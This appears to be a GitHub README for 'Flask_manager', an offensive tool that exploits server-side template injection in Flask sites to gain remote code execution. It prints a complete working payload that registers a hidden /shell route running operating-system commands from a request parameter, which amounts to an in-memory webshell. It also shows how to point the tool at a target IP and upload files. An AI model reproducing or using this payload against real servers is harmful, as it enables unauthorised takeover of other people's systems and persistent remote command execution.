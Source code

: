 # Flask_manager

If you know a website  based on Flask framework, which is SSTI vulnerable then, this tool will help you to generate a Flask memory horse payload for exploiting SSTI (Server-Side Template Injection) and gaining RCE (Remote Code Execution). And also it will help you to get the Webshell on the victim server. 

## About

This tool can generate payload :

```
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```



## Usage

| Command                     | Description    |
| :-------------------------- | -------------- |
| flask_manager --help        | Help           |
| flask_manager --url x.x.x.x | Target connect |



## Examples

* Start the tool

```bash
python flask_manager --url 192.168.225.149
```

* Upload file

```
upload
```



## Screenshot

![](IMAGE\1.PNG)

![2](IMAGE\2.PNG)

![3](IMAGE\3.PNG)

![4](IMAGE\4.PNG)

![5](IMAGE\5.PNG)

![6](IMAGE\6.PNG)

![7](IMAGE\7.PNG)

![8](IMAGE\8.PNG)

![9](IMAGE\9.PNG)

![10](IMAGE\10.PNG)

![11](IMAGE\11.PNG)

![12](IMAGE\12.PNG)

![13](IMAGE\13.PNG)
